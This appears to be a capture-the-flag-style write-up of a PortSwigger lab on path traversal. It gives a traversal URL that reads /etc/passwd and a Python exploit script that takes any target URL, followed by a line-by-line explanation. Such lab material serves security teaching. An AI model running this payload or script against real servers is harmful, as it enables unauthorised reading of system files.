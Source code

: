# File path traversal, simple case

https://portswigger.net/web-security/file-path-traversal/lab-simple

This lab contains a path traversal vulnerability in the display of product images.
To solve the lab, retrieve the contents of the `/etc/passwd` file.

## Solution

To solve this, we must find a way to get into the folder `/etc/passwd`. We can do this using path traversal.
Lets check one of the url of the images in the webpage.

```
https://0a5700da038af37982ad984100db00b2.web-security-academy.net/image?filename=16.jpg
```

From here we can just edit the file name to go to our desired folder.
Often the files for web servers are located in `/var/www/html` and in this case it could be inside a folder `/images` but we don't know for sure. 
What we can do is move up the folder a couple of times to make sure that when we include the path to our `passwd` file, we are in the root directory. 

```
https://0a5700da038af37982ad984100db00b2.web-security-academy.net/image?filename=../../../../etc/passwd
```

And with this we have solved the lab!

## Python Script

Python script to automate:

```python
import sys
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def directory_traversal_exploit(url):
    image_url = url +'/image?filename=../../../../etc/passwd'
    r = requests.get(image_url, verify=False, proxies=proxies)
    if 'root:x' in r.text:
        print('(+) Exploit successful!')
        print('(+) The following is the content of the /etc/passwd file:')
        print(r.text)
    else:
        print('(-) Exploit failed.')
        sys.exit(-1)

def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)
    
    url = sys.argv[1]
    print("(+) Exploiting the directory traversal vulnerability...")
    directory_traversal_exploit(url)

if __name__ == "__main__":
    main()
```

## Analysis
  
This Python script is designed to exploit a directory traversal vulnerability in a web application. Directory traversal is a type of attack that allows an attacker to access directories and files that are outside the intended directory.

Let's break down the code step by step:

**Imports**:

```python
import sys 
import requests 
import urllib3
```

- `sys`: Provides access to some variables used or maintained by the interpreter and to functions that interact with the interpreter.
- `requests`: A popular Python library for making HTTP requests.
- `urllib3`: A powerful library for handling HTTP requests in Python.

**Disable Warnings**:

```python
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
```

This disables the warnings related to insecure requests. It's commonly used to suppress warnings when making requests to sites with invalid or self-signed SSL certificates.

**Proxies Configuration**:

```python
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
```

This sets up proxy settings. The script is configured to use a proxy server running on `127.0.0.1` at port `8080` for both HTTP and HTTPS requests. This is useful for intercepting and inspecting the traffic using tools like Burp Suite.

**directory_traversal_exploit Function**:

```python
def directory_traversal_exploit(url):
    image_url = url +'/image?filename=../../../../etc/passwd'
    r = requests.get(image_url, verify=False, proxies=proxies)
    if 'root:x' in r.text:
        print('(+) Exploit successful!')
        print('(+) The following is the content of the /etc/passwd file:')
        print(r.text)
    else:
        print('(-) Exploit failed.')
        sys.exit(-1)
```

- This function constructs a URL that attempts to access the `/etc/passwd` file on the target system by exploiting the directory traversal vulnerability.
- It sends an HTTP GET request to this URL using the `requests.get()` method.
- If the response text contains 'root:x', it indicates that the exploit was successful, and the content of the `/etc/passwd` file is printed.
- If the exploit fails, it prints a failure message and exits the script.

**main Function**:

```python
def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)
    
    url = sys.argv[1]
    print("(+) Exploiting the directory traversal vulnerability...")
    directory_traversal_exploit(url)
```

- This function is the main entry point of the script.
- It checks if the script is provided with exactly one command-line argument (the target URL).
- If the correct number of arguments is not provided, it prints the correct usage of the script and exits.
- It then calls the `directory_traversal_exploit()` function with the provided URL.

**Script Execution**:

```python
if __name__ == "__main__":
    main()
```

This block ensures that the `main()` function is executed when the script is run as the main program.

To use this script, you would run it from the command line, providing the target URL as an argument. For example:

```shell
python3 script_name.py www.target-site.com
```

Replace `script_name.py` with the actual name of the script file.

